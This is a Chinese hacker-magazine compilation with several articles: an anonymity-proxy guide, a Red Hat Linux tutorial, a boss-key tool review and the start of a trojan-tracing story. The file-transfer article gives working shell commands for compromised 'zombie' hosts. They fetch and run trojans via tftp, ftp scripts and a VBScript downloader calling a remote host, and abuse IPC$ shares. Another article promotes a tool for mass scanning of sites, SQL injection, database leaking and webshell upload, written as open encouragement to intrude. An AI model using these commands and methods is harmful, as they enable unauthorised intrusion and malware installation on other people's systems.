为了更好地发挥 Steganos Internet Anonym Pro 7 的功能，我们打开其主窗口，点击工具栏上的“Settings”按钮，进入设置界面（图5）。展开“Surf anonymously”项，选择“automatically change proxy identities (proxy roulette)”项，表明是否动态地改变匿名代理服务器。这样可以不断改变 IP 地址，使上网者的行踪更加隐秘。可以拖动下面的滑块动态设置改变的时间间隔（从 1 秒钟到 60 秒钟）。


图5

点击工具栏上的“Comfort & Security”按钮，在打开的窗体（图6）中有多项选择。选中“Browser Identification”项可以设置 IE 浏览器的标识信息，例如设为“my browser”，这样可以让别人无法确定浏览器的类型；还可以限制 Cookie、ActiveX Objects、Referrer（网站管理员可以根据 HTTP referrers 确定用户以前访问过哪些网页）、Pop-up windows（弹出窗口）、Mouse function（激活或关闭网页中的右键菜单）、Background sound（背景音乐）等。可以根据需要进行选择，以更好地保护上网者的秘密。


图6

点击“Activate”标签，系统开始动态设置匿名代理服务器。在右边的大幅世界地图上，一个喇叭形状的图标醒目地指示“伪装”后的 IP 地址所在位置，颇有一种“坐地日行八万里”之感。点击“Check your anonymity”按钮临时打开 Steganos 公司提供的测试页面观看效果，在窗口左边“Anonymous Proxy servers”中显示当前匿名代理服务器的相关信息，例如上次更新时间、平均传输速度等信息。在“Filtered content”中显示拦截的 cookie、pop-up windows 等信息。在“Your Current Camouflage”中显示当前匿名代理服务器的域名信息和相应速度信息以及自己的真实 IP 地址。有趣的是，随着地图上指示器的移动，还会显示所在国家的国旗。如果想让系统停止运行，点击“Deactivate”标签即可，如图7。


图7

Steganos Internet Anonym Pro 7 除了让用户“隐身”上网外，还提供了一些实用的安全工具。

### 1. Private favorites（加密收藏夹）

我们在上网过程中，会收集一些自己感兴趣的网站放在收藏夹里，有时不想让别人看到。点击工具栏上的“Private favorites”按钮，在 Steganos private favorites 窗口中（图8）点击“Extras”→“Encrypt all favorites”菜单，系统会要求输入密码，确认之后收藏夹就会被牢牢加密。在 IE 中是看不见的，使用时双击“private favorites (encrypted)”项，输入密码之后收藏夹就打开了。private favorites 还可以新建、编辑新的网站，支持拖拽。如果想恢复正常的收藏夹，只需点击“Decrypt list”菜单即可。


图8

### 2. Destroy traces（一键消痕）

在平时上网以及使用电脑过程中，会在电脑中留下许多痕迹，例如 IE 缓存中的信息、回收站中的文件、开始菜单中的文档信息、cookie 信息、IE 历史信息等，别人可以根据这些痕迹跟踪我们的行踪。在系统工具栏上点击“Destroy traces”按钮，打开 Steganos Internet Trace Destructor 设置窗口（图9），这里的删除项目很多，包括浏览器痕迹信息，还有许多常用软件的痕迹信息，如 ACDSee、eMule、Office 等。设置完成后，点击“Start trace destruction”按钮，系统开始删除相应痕迹，可谓消痕迅速彻底。


图9

### 3. Shredder（粉碎机）

在 Steganos Internet Trace Destructor 窗口的工具栏上有个“Shredder”按钮，可以打开 Shredder 窗口（图10）。


图10

Shredder 提供了两种彻底删除数据的方法，一种针对文件和文件夹：选中要删除的文件或者文件夹，系统会使用特殊方法彻底删除，要想恢复几乎不可能。另一种是针对磁盘剩余空间：我们知道，磁盘自由空间并不是“纯净”的，可能包含杂乱无章的数据，使用 Shredder 可以彻底“洗净”自由空间的内容，包含在其中的以前删除的文件或者文件夹会被全部“洗掉”。

> （文章中涉及到的程序 Steganos Internet Anonym Pro 7 以及注册码已经收录于光盘中）

## 命令行下的文件传输总结


小鱼修炼中

随着网上溢出程序的流行，很多菜鸟不知道如何在 shell 下传送文件。而没有在肉鸡上留下木马或后门进一步控制，不能算是完成一次成功的入侵。所以我在此总结了一下流行的 shell 下传送文件的方法，希望能够对刚入门的新手朋友带来帮助。

### 1. IPC$ 共享传送方式

首先要说的是初学者最爱的 IPC$ 共享传送方式了，用法很简单。先在溢出 shell 下建立一个管理员权限的账号，然后在本地 CMD 下与肉鸡进行连接，命令如下：

```bash
net use \\IP\共享目录\(后面要打$) "密码" /user:"用户名"
copy c:\filename \\IP\共享目录
```

这里再提供一个思路，大家有没有想过其实我们也可以通过肉鸡来“入侵”我们自己的机器，同样达到传送文件的目的，只是将上传改为下载。后面的命令改为：

```bash
copy \\你的IP\共享目录\文件 c:\file
```

大家可以根据这个思路活学活用。玩过 MS03-049 的朋友都知道这个溢出需要 139、445 端口，所以只要溢出成功，就直接将对方的共享目录映射到本地，这样就省得一条杀命令了，命令如下：

```bash
net use z: \\IP\共享目录
```

如果对方把默认共享关闭了，你可以在溢出 shell 下用 `net share` 命令开启。另外传完文件后记得断开连接，命令：

```bash
net use z: \\IP\共享目录 /del
```

### 2. tftp 方式

接着我们说一下很多朋友都用的 tftp 方式。前提是你得拥有一个公网 IP，然后去网上 down 一个 tftpd32.exe，把它放到你要传送的文件目录里运行一下就 OK 了。在溢出 shell 下执行命令：

```bash
tftp -i 你的IP get xx.exe（木马程序）
```

这样就完成了文件传输。然后说明可在 services 文件中查看端口定义：

```text
# Copyright (c) 1993-1999 Microsoft Corp
#
# This file contains port numbers for well-known
# services defined by IANA
#
# Format:
#
# <service name>  <port number>/<protocol> [aliases ...] [# <comment>]
#
echo 7/tcp
echo 7/udp
discard 9/tcp sink null
discard 9/udp sink null
```

```text
systat 11/tcp users # Active users
systat 11/tcp users # Active users
...
tftp 69/udp # Trivial File Transfer
```

不难看出，69/udp 就是定义 tftp 默认端口的，协议为 udp。具体怎么用，只要这两句，其实就是比原来多加了一句改端口的：

```bash
echo tftp 8300/udp >>%SystemRoot%\system32\drivers\etc\services
tftp -i xxx.xxx.xxx.xxx get srv.exe
```

> 旁注：tftp 服务端端口改成什么，与自定义端口一样，否则文件传送会失败，这里是 8300 端口。

当然这个方法也不是每次都成功的，防火墙和管理员的防黑设置都能让你的文件传输失败，所以大家千万别老在一个死胡同里走。有句话说得好，条条大道通罗马。

### 3. FTP 方式

下面我们继续说 FTP 方式。玩过溢出的都知道，在溢出 shell 下用 FTP 命令登录服务端，输入用户名后没等输入密码，CMD 窗口就停顿在那里……所以通常是开启 telnet 服务连接后再登录 FTP 服务器传输文件，或者在肉鸡上写脚本，命令如下：

```bash
echo ftp>1.txt
echo open xxx.xxx.xxx.xxx>>1.txt
echo user>>1.txt
echo pass>>1.txt
echo get muma.exe>>1.txt
echo bye>>1.txt
ftp -s:1.txt
```

完成后用 `ftp -s:1.txt` 就可以自动下载了（用完 1.txt 后一定要删除）。上边使用的是 FTP 默认端口，我们再来看一下使用自定义端口的情况。其实很简单，只要在 IP 地址后面空格，紧跟自定义端口即可，如下：

```bash
echo open xxx.xxx.xxx.xxx 2121>ftp.txt
echo user>>ftp.txt
echo password>>ftp.txt
echo get muma.exe>>ftp.txt
echo bye>>ftp.txt
ftp -s:ftp.txt
```

这些自定义端口为 2121，只要和 FTP 服务端端口一致就行了。现在再说一下怎样直接在溢出 shell 下使用 FTP 传输文件而不用脚本完成——通过以下命令就可以下载了：

```bash
C:\WINNT\system32>ftp
ftp
open xxx.xmp.net
User (xxxxx.net:(none)): 1
get muma.exe
bye

C:\WINNT\system32>muma.exe
```

成功率有 99% 吧，推荐。只是需要自己架设一台 FTP 服务器出来，可以在你机器上架，或者肉鸡上。我们要充分利用肉鸡嘛（另外多说两句，肉鸡要定期维护，勤打补丁，不要被同行搞去了或被管理员发现）。如果你没有 FTP 的话，可以去下载个灰鸽子，里面自带有 FTP 服务器。

### 4. 写脚本下载

脚本是非常好的东西，只要把源码保存到一个文件中就能运行。所以在 shell 下，用 echo 语句直接写到一个文件中，再用相应解释程序执行就可以啦。这里是一个脚本实例的简化：

```bash
echo Set xPost= CreateObject("Microsoft.XMLHTTP") >a.vbs
echo xPost.Open "GET", "http://muma.com/srv.exe",0 >>a.vbs
echo xPost.Send() >>a.vbs
echo Set sGet = CreateObject("ADODB.Stream") >>a.vbs
echo sGet.Mode = 3 >>a.vbs
echo sGet.Type = 1 >>a.vbs
echo sGet.Open() >>a.vbs
echo sGet.Write(xPost.responseBody) >>a.vbs
echo sGet.SaveToFile "srv.exe",2 >>a.vbs
```

然后执行 `cscript a.vbs` 就可以啦，其中把 `http://muma.com/srv.exe` 改成你存放木马的网站路径，`srv.exe` 可以改成保存文件的路径。这里还有一个脚本：

```bash
@echo wscript if arguments.count<2 then quit end if > d.vbs
@echo set aso=createobject("adodb.stream") : set web=createobject("microsoft.xmlhttp") >> d.vbs
...
@echo web.open "get", arguments(0),0 : web.send : if web.status<>200 then echo "Error" : wscript.quit >> d.vbs
@echo aso.type=1 : aso.open : aso.write web.responseBody : aso.SaveToFile arguments(1),2 >> d.vbs
```

写完后在 shell 运行：

**cscript d.vbs http://www.muma.com/muma.exe c:\explorer.exe**

（前面是下载地址，后面是要保存的路径）。这个方法虽是不太爽啊，也是我最常用的，今天写出来跟大家分享。

### 5. 利用 IE 临时文件夹

```bash
start "" http://muma.com/muma.rar （看清楚）
cd "C:\Documents and Settings\Default User\Local Settings\Temporary Internet Files\Content.IE5" （假设系统装在C盘，且当前环境是SYSTEM）
dir /s ca[1].rar
```

然后会提示 ca[1].rar 的具体位置，比如  
`C:\Documents and Settings\Default User\Local Settings\Temporary Internet Files\Content.IE5\MVC11H\ca[1].rar`，最后：

```bash
copy MVC11H\ca[1].rar c:\winnt\system32\ca.rar
copy 记住在IE临时文件夹中不能直接运行程序的

del MVC11H\ca[1].rar
```

### 6. 其他方法

如果以上方法都不行，那这主机也真够 BT 的，我们只能用 echo 自己写入文件了。

总结了这 5 种常规方法，其实还有一些非常规的方法也可以，比如建立好管理员账号后用 DameWare 远程控制工具远程安装并用它的文件传送功能；还可以看看能不能找到什么敏感文件如 conn.asp，然后用 SQL 连接等等。

一般整上面 5 种方法后，相信传文件不是难题了。好了文章就到这，菜鸟朋友们有什么问题可以来论坛找俺！

## 歌曲在线播放下载

小黑虾

在线听歌已成为当今上网用户必不可少的一部分。但是，在线听歌受网络速度的限制，网速不好，播放效果就很不理想，所以一般都会下载歌曲。可是问题又来了，现在很多网站都只提供在线试听，而不允许下载歌曲。所以，我们就要找到歌曲的网络路径来下载歌曲。

我试过很多方法来找歌曲路径，比如查看网页源代码等，但都比较费神费力。后来我发现一个很简单而且很容易操作的方法，下面我就给大家演示一下。


点击“在 RealPlayer 中播放”，这时会启动 RealPlayer 软件，并自动加载歌曲。我们只要点击“文件”→“剪辑属性”，会弹出一个窗口，其中“文件名”后面的就是歌曲路径。


这样就可以直接用 FlashGet 下载了。这个方法很简单，而且也很实用。


# 傻瓜黑客

## 轻松玩转 Red Hat Linux 9.0

魔女の条件

Windows 系统在家用电脑的普及率及其领导地位，已经是家喻户晓的了。对于我们这些永远追求时尚潮流的电脑迷来说，迫切希望体验 Linux 系统的开源思想、发展前途和安全性等 Windows 无法比拟的特权。加入 Linux 的群体不断增多，Linux 系统 Fans 们的求知欲望与日俱增，都充分证明了 Linux 正在进入我们的生活。

## 一、走进 Linux 系统新生活

对于 Linux 系统的安装，在这里我就不做过多的说明了。网上有详细的安装教程，我相信菜鸟朋友们都能看懂的……现在切入正题，安装 VMware-tools 的时候要在文本模式下安装，图形界面下的 Shell 是不可以的。在这里我传授各位看官我的独门小诀窍。

> 测试操作系统：Red Hat Linux 9.0  
> 内核版本：2.4.20-8  
> GRUB 版本：0.93


方法一：用 Grub 引导进文本界面，进入 Grub 启动画面之后，如图 1。


按下键盘的“A”键，进入到自定义配置启动等级的地方，我们在其后面敲入“空格+3”，代表以 3 模式（多用户的文本模式）来启动系统，如图 2。完毕后按回车就可以引导进入文本界面，但是不修改系统的运行级，只在当次有效。

方法二：在图形模式的 Shell 下修改 `/etc/inittab` 文件，其中有一行 `id:5:initdefault:`，意思是说开机默认进入运行级别 5（多用户的图形界面）；把它改成 `id:3:initdefault`，即开机默认进入运行级别 3（多用户的文本界面）。

> 小知识：Linux 运行级详解  
> Linux 启动时运行一个叫做 init 的程序，然后由它来启动后面的任务，包括多用户环境、网络等。运行级定义了系统当前正在运行的功能级别，常见级别从 0 到 6。相关配置主要在 `/etc/inittab` 和 `/etc/rc.d` 目录。

大多数 Linux 发行版本中，启动脚本位于 `/etc/rc.d/init.d`。这些脚本被 init 命令连接到 `/etc/rc.d/rcn.d` 目录（这里的 n 就是运行级 0-6）。例如 `/etc/rc.d/rc2.d` 下的 `S10network` 就是连接到 `/etc/rc.d/init.d` 下的 `network` 脚本的……不同的运行级定义如下（可以参考 Red Hat Linux 里的 `/etc/inittab`）。

### 1、熟悉的运行级别如下

- 0 - 停机（千万不要把 initdefault 设置为 0）
- 1 - 单用户模式
- 2 - 多用户，但是没有 NFS
- 3 - 完全多用户模式
- 4 - 没有用到
- 5 - X11
- 6 - 重新启动（千万不要把 initdefault 设置为 6）

### 不同运行级别的详细解释

- 0 为停机，机器关闭。
- 1 为单用户模式，就像 Win9x 下的安全模式类似。
- 2 为多用户模式，但是没有 NFS 支持。
- 3 为完整的多用户模式，是标准的运行级。
- 4 一般不用，在一些特殊情况下可以用它来做一些事情。
- 5 就是 X11，进到 X Window 系统了。
- 6 为重启，运行 `init 6` 机器就会重启。

不同的运行级有不同的用处，也应该根据自己的不同情形来设置。例如，如果丢失了 root 口令，那么可以让机器启动进入单用户状态来设置。在启动后的 lilo 提示符下输入：`init=/bin/sh rw`，就可以使机器进入运行级 1，并把 root 文件系统挂为读写。它会跳过所有系统认证，让你使用 passwd 程序来改变 root 口令，然后启动到一个新的运行级。

方法三：在图形界面下，右键点击桌面，打开一个终端。在终端里输入，如图 3。

```bash
$ su
# /sbin/telinit 3
```


图形界面消失，回车几下，在文本方式下登录。返回到默认的图形界面方法是输入（运行级别 5）：`# /sbin/telinit 5`。既然前面的三种进入文本模式的方法，接下来我们就在文本模式下安装 VMware-tool 了。

- 在 Windows 的 VMware 的窗口菜单中选 `File -> Install VMware Tools`。
- 在虚拟机中：

```bash
$ su
# mount /dev/cdrom /mnt/cdrom
# cd /tmp
# tar zxvf /mnt/cdrom/vmware-linux-tools.tar.gz
# cd vmware-tools-distrib
# ./vmware-install.pl
```

## 二、我的 Linux 地盘我做主

在 Linux 系统中，您可以做在您熟悉的 Windows 系统下能够做的任何工作和娱乐功能。


对学生来说，在寝室 Linux 系统下用小猫下载音乐或电影就是非常奢侈的事了。那么我就先在网吧下载好，然后使用 U 盘或 MP3 把我喜欢的歌曲和技术文档拷贝回我的电脑就是非常必要的了。由于平时用 Windows 的机会还是比较多，大部分分区都是 NTFS 的，要想和 Linux 资源共享，除了通过网上邻居或在 Linux 系统下访问 Windows 分区的配置，最简单和行之有效的方法就是使用 U 盘在双系统下拷贝。接下来我就详细说说，如何在 Linux 系统下使用 U 盘。

首先，U 盘的使用需要 Linux 内核在 2.4.X 以上，这是因为 Linux 中硬件驱动是编译在内核中的，内核不支持 USB 就无法使用。这个现在不成问题，因为 Red Hat Linux 早在 7.2 版本中就支持 U 盘。

Linux 不同于 Windows，它将不同的分区都当成一个设备，使用前需要挂载，用完后需要卸载。U 盘的挂载同软盘和光驱类似。使用挂载需要知道设备名，也就是它在 `/dev/` 下的名称。有的 Linux 系统将 U 盘视为普通 IDE 设备，因此设备名为 `dev/hde*`；某些系统认为 U 盘是 SCSI 设备，设备名为 `sda*`。如果不清楚您的 U 盘或 MP3 属于哪种设备的话，可用下方式确定。

在 Shell 提示下，使用命令：`# dmesg|more`，在显示结果中找到：

```text
scsi1 : SCSI emulation for USB Mass Storage devices
Vendor: ...   Model: ...   Rev: ...
Type: Direct-Access   ANSI SCSI revision: 02
Attached scsi removable disk sdb at scsi1, channel 0 ...
SCSI device sdb: ...
sdb: sdb1
```

就可以确定系统将它认为是 SCSI 设备。其中容量等信息可见，显示系统中对应设备名为 `sdb1`。其次，我们来挂载 U 盘。为设备建立一个空目录，如 `/mnt/usb`，然后将设备挂载到该目录下，就可以像使用本地硬盘一样使用 U 盘了。使用如下命令：

```bash
# mkdir /mnt/usb
# mount -t vfat /dev/sda1 /mnt/usb
```

在这里用 `-t vfat` 指定 U 盘使用分区类型是 Windows 的分区格式。

```bash
# cd /mnt/usb
### ls
```

U 盘使用后，一定要卸载，如果直接拔出，可能会损坏 U 盘上的数据。卸载前需要离开 `/mnt/usb` 目录，并且确定没有程序在使用这个目录，否则会卸载失败。离开 `/mnt/usb` 目录后，卸载命令：`# umount /mnt/usb`。

如果每次使用 U 盘都输入一串命令，不够方便，可以使用下面的方法：在系统分区文件 `/etc/fstab` 中，增加如下内容：

```fstab
/dev/sdb1   /mnt/usb   vfat   defaults,codepage=936,iocharset=cp936   0 0
```

以后使用 U 盘就方便多了，可以直接在 Shell 提示符中挂载，输入命令：`# mount /mnt/usb`，或者使用硬盘管理工具挂载 U 盘，如图 1。

> 小技巧：在 U 盘中使用中文命名的文件，如果按前面的命令，则中文显示会不正确。为了能够正常地显示中文，需要在命令后面加几个参数。

```bash
# mount -t vfat -o iocharset=gb2312,umask=0,codepage=936 /dev/sda1 /mnt/usb
```

## 三、畅游网络新世界

我这样的酷爱上网的网虫儿，在 Linux 系统下怎么能不上网、聊 QQ 呢？现在我就讲下如何在 Windows XP Host + Linux Guest 下上网、聊 QQ！

| 环境 | 配置 |
|---|---|
| Host | Windows XP professional |
| VMware | Workstation 4.0.5 build-6030 |
| Guest | Red Hat Linux 9.0 |

在 Windows XP 中，查看所有的网络连接，会发现除了原有网卡之外还有 VMnet1 和 VMnet8。VMnet1 是 Host-only 接口，VMnet8 是 NAT 接口。这里我们不使用 VMware 自带 DHCP，也不使用它的 NAT，所以只关心 VMnet1。

我们将使用 Host-only 网络连接虚拟机和主机，然后利用 Windows XP/2000 的 Internet 连接共享（相当于一个简单路由 NAT）让虚拟机通过原来的网卡访问外网。

- 查看连接外网网卡属性，在“高级”中启用共享，并指定允许的网络接口为 VMnet1（如图 5）。
- 查看 VMnet1 的 TCP/IP 设置，确认自动设置为 `192.168.10.1/255.255.255.0`（如图 6）。
- 切换到 Linux 虚拟机，将 `eth0` 设置为静态地址（如图 7）：`IP 192.168.10.2`，`Netmask 255.255.255.0`。


Default Gateway：`192.168.10.1`；DNS：输入你自己的 DNS。保存设置。如果你还没有设置好主机名称：

```bash
# cd /etc/sysconfig
# vi network
```

编辑 HOSTNAME。

```bash
# cd /etc
# vi hosts
```

加入：`192.168.10.2 YourHostName`。重新启动服务：

```bash
# su
# /sbin/service network restart
```

- 测试一下：
  - 网关：`ping 192.168.10.1`
  - DNS：`ping DNSServer`

在《黑客 X 档案》中可看到 Sagi 哥哥发表的 LUMA QQ 安装方法，这里不再安装该版本 QQ。Linux 下有聊天工具 Gaim，插件较多。本文使用 Gaim-0.79 + OpenQ-0.3.0.p3 的 rpm 包，并分享一些安装经验。

安装 Gaim-0.79 + OpenQ_0.3.0_p3 这个包之前，要先安装 `rpm -ivh gtkspell-2.0.4-fr3.i386.rpm`，然后安装 `gaim-0.79-OpenQ_0.3.0_p3.gugong2.i386.rpm` 时会提示缺少 `libaspell.so.15`。文中给出两种处理方法，并讨论了 `--nodeps` 的风险与依赖问题。

```bash
ln -s /usr/lib/libaspell.so /usr/lib/libaspell.so.15
```

如果系统里已有较低版本 aspell（如 0.33.7.1），直接升级可能报依赖。建议先强制升级 aspell，再安装 gaim 包。

```bash
rpm -Uvh aspell-0.50.3-19.i386.rpm --nodeps
rpm -ivh gaim-0.79-OpenQ_0.3.0_p3.gugong2.i386.rpm
```

```bash
# mount -t iso9660 /dev/cdrom /mnt
# cp /mnt/*.rpm /tmp
# umount /dev/cdrom
# cd /tmp
# rpm -ivh gtkspell-2.0.4-fr3.i386.rpm
# rpm -Uvh aspell-0.50.3-19.i386.rpm --nodeps
# rpm -Uvh gaim-0.79-OpenQ_0.3.0_p3.gugong2.i386.rpm
```

默认安装了低版本 Gaim 后，可用 Uvh 升级安装。安装完成后启动 Gaim，如图示。


- 首选项 → QQ → IP 地址数据文件路径修改为：`/usr/share/OpenQQ/QWry.Dat`。

```text
/usr/share/OpenQQ/QWry.Dat
OpenQ installed directory: /usr/share/OpenQQ
```


- 账户 → 增加 → 协议选择 QQ，填写 QQ 用户名与密码后登录；在 Red Hat Linux 9.0 系统联网环境下运行，如图 10。


文末为致谢与说明：感谢 Linux 开源社区前辈贡献；文中提到 GaimQQ 安装文件已制作为 ISO 供使用；受篇幅与作者能力所限，内容可能有疏漏，欢迎指正。

## 最新旁注工具最完全介绍

HaJunEcK


呵呵，黑客 X 档案的忠实读者们，大家好啊。我今天借明小子刚刚开发出来的最新版旁注入侵工具 3.0，在此跟大家见面啦。相信刚学黑客的朋友，都一定用过这款工具吧！这可是菜鸟的必备工具哦，想当初黑了几百个站，就是靠这个工具的，不过我没有破坏啦，只不过扔了些肉鸡玩玩！嘿嘿，现在肉鸡成群咯，sagi 前天还抢了我两只鸡！可恶！

好了，言归正传。现在先来看我们最新版的旁注工具。啊哦，怎么要用户名和密码的？直接点击“登录”，就可以进入了，这是默认的用户名和密码（账号：黑客动画吧，密码：hack58.com），图 1 所示。


我们知道前面一共出了五个版本的旁注入侵工具，最开始应该是 1.2 版。今天我手中的这个 Domain3.0 0405 修正版，的确被明小子改善了很多，无论从整体功能上，还是速度上都大有提高。现在就开始让我们来体验一下这个工具吧。该版本已开发完四个版块，分别为旁注检测、综合上传、SQL 注入检测、数据库管理！（其中还有 php 注入、破解工具、辅助工具这三个版块的功能暂时还没有开发，看样还要等一段时间。）按照我个人的理解，这个工具的功能至少可以抵上五个你常用的入侵工具：啊D注入工具、通用上传工具、域名查询工具、辅助数据库查行工具、iecv.exe（修改 cookie 时候常用的工具）。

先来说第一个版块——旁注检测。这个大版块中，就有五个小版块。其中网页浏览就相当于你的浏览器，明小子在这个版本中修改了一个 BUG，感觉上好用多了。以前我用这个工具，网页有时候会打不开，还误以为是网站问题呢！网页“浏览”除了用作浏览器以外，其实还有更大的功能。相不相信单用这个版块，我就可以入侵很多网站啊？（菜鸟们一定心动了~）因为它还具有自动读取 Cookie 和修改 cookie 的功能呢！想到什么了吧？看过上期 X 档案的朋友，一定会知道 mybbs 存在的严重漏洞，就是可以让人家轻易得到后台管理权限。关于方法呢，这里我不详细说了，不清楚的看看上期杂志！但是这里，我们要使用这个 cookie 的修改功能的话，就要先转到“功能设置”这个版块，如图 2。


把这三个勾都勾上，留心看的朋友就会看到还有个自动检测注入点的功能。来，我们随便进入一个网址看看，哇，那么多注入点哦，如图 3。这次还不爽死我，又有肉鸡了，嘿嘿。感觉是不是跟啊D注入工具一样简单方便呢？其实它比啊D检测的速度更快啊。呵呵，最后这个版块中还有个查询网站排名的，有兴趣的朋友自己玩玩啦。

第二个小栏目是：二级检测，也就是检测它的二级域名，如图 4。


第三个小栏目——网站批量检测。这个就是以前我们旁注的原始功能啦，能够自动地、同时地检测到同一服务器下所有的网站，是否存在常见的上传漏洞。这个版本在这个地方也做了点修改，增加了一些上传漏洞页面的地址，在速度上也加快了许多，一下子就扫出许多存在各种上传漏洞的页面。然后就是上传木马，不用我说啦，呵呵，就这样又获得了一批 shell。成了，第一个大版块——旁注入侵就说完了。就这么简单的几步骤，我们就入侵许多站了，看来有我们菜鸟大显身手的地方咯。

# 傻瓜黑客

图5

图8

现在，转到第二版块——综合上传，这个是结合前面所讲的，搜到的那些上传页面来利用的，看看有什么专门的上传？如图6。

得到注入点了，我们就来看下一个小版块——SQL注入猜解。速度真的很快，这是无可非议的。如图9，一小会就搞定了。还有一个很不同于其他注入工具的一点就是，图9最下面的“检测”信息底下，它把注射的过程、语句都列出来哦。这里可以让菜鸟们学习如何手工注入的语句哦，是不是一举两得呢！？好啦，这个版块的内容也讲完啦，再继续看最后一个。

图6

哈哈，这些漏洞，我们是再熟悉不过的啦。动网7.0（upfile.asp 为上传漏洞页面）、动力3.51（upfile_soft.asp 和 upfile_softpic 为上传漏洞页面）、齐客论坛6.0（upload.asp?action=upfile 为上传漏洞页面），利用前面的那个“网站批量检测”功能，就可以轻易地找到这些漏洞页面是否存在了。只要确认存在后，我们就可以跳到这个版块，然后上传木马。最后一栏，还有个“自定义”，如图7所示。

图9

数据库管理，如图10，这里主要是查看数据库的。就是当我们通过默认数据库地址下载数据库，或者是暴库啊，得到一些数据库的时候，就需要通过这个工具来查看管理员的密码了。

图7

这个栏目，我们可以自定义上传的路径。比如我们发现了一些网站的上传路径，不是像我们默认的那样，那么我们就可以去自定义上传路径了。而且，这里大家如果不选择自己的 ASP 木马的话，程序也会上传默认的那个木马，是个免杀，也不错的。

好，来玩玩 SQL 注入啦。转到第三个功能版块——SQL 注入猜解检测。这里我们如果是有目标地针对某个网站，要进行测试是否有注入点的话，可以在添加网址那里直接添加一个网址上去，然后扫描注入点。如果是要抓肉鸡的话，嘿嘿，有个最新的功能哦，就是“批量分析注入点”，如图8。那么，就可以把所有的网站一起分析注入了，不用一个一个来了，呵呵，是不是挺方便的呢！

图10

暴库，呵呵，差点忘记了。再倒回“SQL 扫描注入点”那里，如图11，看到没有，朋友们，这里有个暴库，只需要你填写网址上去就可以尝试暴数据库路径了。这里给大家一个小贴士（粤语，意思是：小窍门），看看上一期的 BBSXP 的暴库那篇文章吧，就是随意进入 BBS 的一个页面，然后用 %5 去替换最后一个斜杠“/”就可以暴了，但是这里我们用工具就直接暴了。暴出来的如图12，后面怎么做就不用我再教了吧！

这款工具给大家就介绍到这里了，大家快快去体验吧。还有不懂的，自己看看说明；我就不妨碍大家去拿 SHELL、去抓肉鸡啦……

曾听谁说过，要会编写工具的人才是高手啊。我告诉你们，能够用好所有黑客工具的人一样也是个高手，呵呵，不要气馁哦……菜鸟终会有一天变成高手的！

（本文涉及的明小子最新版旁注入侵工具 3.0 光盘中有收录。）

## 鼠标一晃，烦恼全无

虫子

当你与 MM/GG 聊得正欢，或正陶醉于游戏、电影、音乐而物我两忘之际，老板或父母却恰在你的身边，此时你一定慌了神。要知道，此乃工作或学习时间，推荐 NITRO 这个小工具。它特别适合工作或学习时“三心二意”的人使用。只要事先作一些简单设置，在紧急时候晃动一下鼠标，就可以实现清空回收站、删除历史记录、断开网络连接、关闭/最小化窗口、WAVE 音量设为 0、黑屏等多种功能……

- 1. 操作灵敏度不要设得太小，否则鼠标稍一动就触发 NITRO，反而影响正常操作。
- 2. 软件“爆炸后关闭窗口”，这窗口仅指当前窗口，因此你想隐蔽多个程序是不行的。
- 3. “爆炸后将 WAVE 音量设为 0”功能在看电影或听歌时有用，但事后应将“音量控制”中 Wave 项滑杆拉回，否则播放音视频文件时会没有声音。
- 4. 你可以在“其他功能”下的“爆炸后启动以下程序”处指定一个工作文档，这样触发后会自动打开该文档。

设置完后，点 Set1 到 Set6 按钮中的一个保存。回到主界面选择你的号码，点“准备”按钮并使 NITRO 窗口成为非当前窗口。这样程序处于待命状态；你可放心看电影、聊天……当上司或老师走近时，轻轻一抖鼠标即可触发预设条件，界面立刻切换到“正常工作/学习”场景。

## 这匹木马，怎能自由放飞它？
### ——反追踪行动中嗅探技术的应用

踏雪无痕（恶立冬）

好友鲍鲍打电话告诉我说他的机器中了病毒，好像情况比较严重（他前几天新配置的机器，可能是杀毒软件第一次发出病毒警报，心情比较紧张），让我过去看看。铁哥们了，所以虽然户外朔风怒号，滂雪排空，我也不能不去（其实到他家只有 200 多米的距离）。

到了他家，见他还在那认真地“看守”着那个金山毒霸6发出的病毒报告框。我疑惑不解地看着他，他说为了不给我的“工作”带来不便，他一直保留着病毒发作的第一现场。这个鲍鲍啊，还蛮有意思的嘛。

他叙述了杀毒软件发出警报的前前后后：他说他正在和一位 MM 聊天，聊得比较投机。熟了之后说要看那 MM 的照片，那 MM 就答应了。照片是用 QQ 传送来的，打开后，毒6就报警了，整个过程就这么简单。这个鲍鲍啊，怎么就见了 MM 就什么也不管了呢？

没办法，不管他了，还是来看一下这个病毒吧！从金山毒霸6发出的警报来看，这可能是个 QQ 杀手之类的木马，而且好像还没有经过什么伪装，只是捆绑了一下。我把病毒报告框关掉了，然后桌面上就剩下一幅照片了。

“这就是那 MM 给你发过来的照片吗？”我问道。

“嗯，你说漂亮不漂亮？”鲍鲍答应一声并得意洋洋地问我一句，似乎已经忘记了中毒的事了。

“这明显是林心如的照片嘛！莫非你和林心如的孪生妹妹聊上了？也没听说过林心如有孪生妹妹啊。”我说着并心想这个“放马者”有多么水。

查了一下照片的属性，是个“.exe”的文件。我想如今的网民也只有鲍鲍这样的菜鸟才能上这么小儿科的当了。

用 WinHex 初步分析了一下这个木马，又找来了一个原版的 QQ 杀手，并到百度查了一下林心如的照片。很走运，找到了一张一模一样的，于是拷了下来。又下载了一个开山文件合并器（现在用开山文件合并器的挺多的，很适合菜鸟，所以就选它了），将配置好的 QQ 杀手与那张林心如的照片捆绑了一下，又用 WinHex 进行了一次分析，发现和对那个“MM”传来照片的分析结果基本一致（当然也有一些不同，有很多原因可以导致这样的结果，我们今天分析的两个结果基本相同都要算是我们运气好了）。从分析结果来看，这基本上就是 QQ 杀手了。

本来像这样的木马，我们把它从机器中赶走也就没什么事了，但是如果我们就这样白白地放了它，岂不是太便宜放马者了！不行，我们要反追踪他，给他点颜色看看。

反追踪前，我们需要了解一下 QQ 杀手的监控机制。由于 QQ 杀手采用 25 端口发送信息，数据均以明文的形式进行传输，所以我们就可以利用嗅探技术，来探出接收信息的邮箱账号和密码。

避不开俗套，在切入正题之前，我们还是先来了解一下嗅探技术。

嗅探也称监听，将在局域网内的一台主机、网关上放置嗅探程序，从而可以嗅探出当前网络协议的状态、数据流动情况以及传输数据等敏感信息。这样，我们就可以利用嗅探原理结合 QQ 杀手的发信机制来探出“马主”的信箱账户及密码。

行动之前，我们先来认识一些嗅探工具。

